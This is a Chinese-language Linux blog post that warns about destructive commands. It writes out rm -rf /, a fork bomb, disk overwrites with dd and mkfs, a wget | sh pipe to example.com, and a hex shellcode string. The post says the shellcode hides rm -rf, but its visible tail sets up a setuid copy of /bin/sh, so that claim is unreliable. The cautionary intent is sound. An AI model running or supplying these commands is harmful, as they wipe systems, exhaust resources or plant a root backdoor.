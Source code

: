 ```yaml
---
layout: post
catalog: true
tags:
  - Linux
---
```

### 一 .删除 rm

```1，rm -rf Command
rm -rf Command
```
rm -rf命令是删除文件夹及其内容的最快方法之一。但是一点点错字或失误可能会导致不可恢复的系统损坏。与rm命令一起使用的一些选项是：

```shell
rm 命令用于删除文件。
rm -r  命令以递归方式删除文件夹，甚至是空文件夹。
rm -f  命令在不询问的情况下删除“只读文件”。
rm -rf /：强制删除根目录中的所有内容。
rm -rf *：强制删除当前目录/工作目录中的所有内容
rm -rf. ：强制删除当前文件夹和子文件夹。
rm -rf ~将删除主文件夹中的所有文件，
rm -rf .*将删除所有配置文件。
```

因此，执行rm -rf命令时要小心。如果通过'rm'命令来克服意外删除文件，可以在“.bashrc”文件中创建'rm'命令的别名为'rm -i'，它会要求确认每次删除。

### 二. 函数:()

```
:(){:|:&};:
```
以上实际上是一个fork炸弹。它通过定义一个名为'：'的函数来运行，该函数调用自身两次，一次在前台，一次在后台。它一直持续执行，直到系统冻结。
```
:(){:|:&};:
```

这短短的一行定义了一个shell函数，它可以创建自己的新副本。进程不断地复制自己，它的副本不断地复制自己，很快地占用了所有的CPU时间和内存。这会导致你的主机死机。这基本上是一种拒绝服务攻击。

### 三. 运行命令 command

```
command > /dev/sda
```

上面的命令将'command'的输出写入块/ dev / sda。它运行一个命令并将该命令的输出直接发送到第一个硬盘驱动器，将数据直接写入硬盘驱动器并损坏文件系统。

```
command - 运行命令（可以是任何命令。）
/ dev / sda - 将命令的输出直接写入硬盘设备。
```

块上的所有文件将被原始数据替换，从而导致块上的数据完全丢失。

### 四. 移动 mv

```
mv folder /dev/null
```

上面的命令会将'folder'移动到/ dev / null。在Linux ，dev / null或null是一个特殊文件，它丢弃写入它的所有数据并报告写操作成功。例如：

```
mv~ / dev / null - 将您的主目录移动到黑洞
```

mv - 将以下文件或目录移动到另一个位置。 

〜 - 表示整个主文件夹。 

/ dev / null - 将您的主文件夹移动到/ dev / null，销毁所有文件并删除原始副本。

### 五.下载wget

```
wget http://example.com/something -O- | sh
```

上面的命令从Web下载脚本并将其发送到sh，后者执行脚本的内容。

```
wget -下载一个文件。

http://example.com/something——从这个位置下载文件。

| 将wget命令(您下载的文件)的输出直接发送到另一个命令。

sh -将文件发送到sh命令，如果是bash脚本，sh命令就会执行它。
```

如果您不确定脚本是什么，或者您不信任其来源，那么这可能很危险 - 不要运行不受信任的脚本。

### 六.格式化  mkfs.ext3

```
6. mkfs.ext3 /dev/sda
```

上面的命令将格式化块'sda'，你肯定会知道执行上述命令后你的Block（硬盘驱动器）将是新的，全新的！没有任何数据，将您的系统置于不可恢复的阶段。

```
mkfs.ext3 /dev/sda
```

总而言之，此命令可以等同于在Windows上运行格式c：它将擦除第一个分区上的文件并用新文件系统替换它们。

### 七.清除 dd

```
7.dd if=/dev/random of=/dev/sda
```

上面的命令将清除块sda并将随机垃圾数据写入块。

```
dd if=/dev/random of=/dev/sda
```

当然！您的系统将处于不一致且不可恢复的阶段。

### 八.被隐藏的命令

以下命令只是上面的第一个命令（rm -rf）。这里的代码以十六进制隐藏，以便无知的用户可能被欺骗。在终端中运行以下代码将擦除根分区。

```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

这种被隐藏的危险命令，通常无法被检测到。你必须知道你在做什么以及结果会是什么。不要编译或者运行来自未知来源的代码。
